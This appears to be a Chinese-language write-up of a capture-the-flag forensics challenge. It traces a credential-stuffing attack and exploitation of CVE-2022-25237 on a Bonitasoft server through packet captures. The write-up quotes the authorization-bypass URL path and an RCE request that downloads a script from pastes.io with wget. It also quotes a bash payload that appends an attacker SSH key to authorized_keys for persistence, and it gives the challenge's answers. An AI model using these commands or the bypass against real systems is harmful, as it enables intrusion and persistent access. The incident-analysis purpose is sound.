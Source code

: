 # Meerkat

:::info Sherlock Scenario

As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

作为一个快速发展的初创企业，Forela 一直在利用一个商业管理平台。不幸的是，我们的文档资料有限，我们的管理员也不太重视安全。作为我们的新安全服务提供商，我们希望你能看一看我们导出的一些 PCAP 和日志数据，确认我们是否受到了（或者没有受到）侵害。

:::

## 题目数据

[meerkat.zip](./meerkat.zip)

## Task 1

> 我们相信我们的商业管理平台服务器已经遭到了入侵。请确认正在运行的应用程序名称。

在流量包中，使用以下语句进行筛选

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

在 url 部分，可以发现这份字符串

```plaintext
bonita
```

经过搜索，可以定位到这个 `bonitasoft` 这个平台

```plaintext title="Answer"
bonitasoft
```

## Task 2

> 我们相信攻击者可能使用了暴力破解攻击类别的子集 - 所进行的攻击名称是什么？

查看后续的一些 http 包，可以发现产生了大量失败的登录请求，可以怀疑攻击者正在尝试进行凭据爆破

```plaintext title="Answer"
Credential Stuffing
```

## Task 3

> 被利用的漏洞是否有 CVE 编号 - 如果有，是哪一个？

:::note

为了分析方便，这里将

```plaintext
(ip.dst == 172.31.6.44 || ip.src==172.31.6.44) && http
```

筛选器得到的分组结果导出为新的 pcap 文件，再进行分析

可能会导致 tcp 流的编号与原始 pcap 包不一致

:::

根据后续的流量，可以发现攻击者登陆成功后 POST 形式发送了一个 zip 文件

![wireshark POST zip](img/image_20231205-160549.png)

并且后续进行了利用

![wireshark POST zip 漏洞利用](img/image_20231206-160635.png)

根据所得到的信息，可以定位到 `CVE-2022-25237` 这个漏洞编号

```plaintext title="Answer"
CVE-2022-25237
```

## Task 4

> 攻击者的利用是通过在 API URL 路径上附加了哪个字符串来绕过授权过滤器的？

将攻击者访问的 api url 请求进行提取

```plaintext
/bonita/API/portal/page/;i18ntranslation
/bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8
/bonita/API/portal/page/133;i18ntranslation
```

可以分析出字符串为 `i18ntranslation`

```plaintext title="Answer"
i18ntranslation
```

## Task 5

> 在凭证填充攻击中使用了多少组用户名和密码的组合？

简单统计一下 http POST url=="/bonita/loginservice" status_code==204 的请求即可

```plaintext title="Answer"
56
```

## Task 6

> 哪个用户名和密码组合成功了？

查看凭据爆破的最后一次请求

```plaintext
POST /bonita/loginservice HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: x=x
Content-Length: 59

username=seb.broom@forela.co.uk&password=g0vernm3nt&_l=enHTTP/1.1 204
Set-Cookie: bonita.tenant=1; SameSite=Lax
Set-Cookie: JSESSIONID=772FE3C83B1A0815EC3AFA1C098B40E9; Path=/bonita; HttpOnly; SameSite=Lax
Set-Cookie: X-Bonita-API-Token=d350c469-2660-4504-9bea-4dbfa41ed9a4; Path=/bonita; SameSite=Lax
Set-Cookie: BOS_Locale=en; Path=/; SameSite=Lax
Date: Thu, 19 Jan 2023 15:39:17 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

即可得到

```plaintext
username: seb.broom@forela.co.uk
password: g0vernm3nt
```

```plaintext title="Answer"
seb.broom@forela.co.uk:g0vernm3nt
```

## Task 7

> 如果有的话，攻击者使用了哪个文本分享网站？

在流量中，发现这么一个会话

```plaintxt
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget https://pastes.io/raw/bx5gcr0et8 HTTP/1.1
Host: forela.co.uk:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: JSESSIONID=745EE4F7243DA99264F07781FBB9B4E3; X-Bonita-API-Token=1ccb3fac-8abd-4cc0-a52e-bb5811198cdf; bonita.tenant=1; BOS_Locale=en

HTTP/1.1 200
Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate
Date: Thu, 19 Jan 2023 15:38:53 GMT
Accept-Ranges: bytes
Server: Restlet-Framework/2.3.12
Content-Type: application/json;charset=UTF-8
Content-Length: 544
Keep-Alive: timeout=20
Connection: keep-alive

{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

```plaintext title="Answer"
pastes.io
```

## Task 8

> 请提供攻击者用于在我们主机上获得持久性的公钥文件名。

对上文流量中使用的远程载荷 `https://pastes.io/raw/bx5gcr0et8` 下载下来进行分析

```shell title="https://pastes.io/raw/bx5gcr0et8"
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

```plaintext title="Answer"
hffgra4unv
```

## Task 9

> 您能确认攻击者修改的文件以获取持久性吗？

上文的载荷中就有

```plaintext title="Answer"
/home/ubuntu/.ssh/authorized_keys
```

## Task 10

> 您能确认这种持久性机制的 MITRE 技术 ID 吗？

Google Search: `MITRE technique authorized_keys`

```plaintext title="Answer"
T1098.004
```

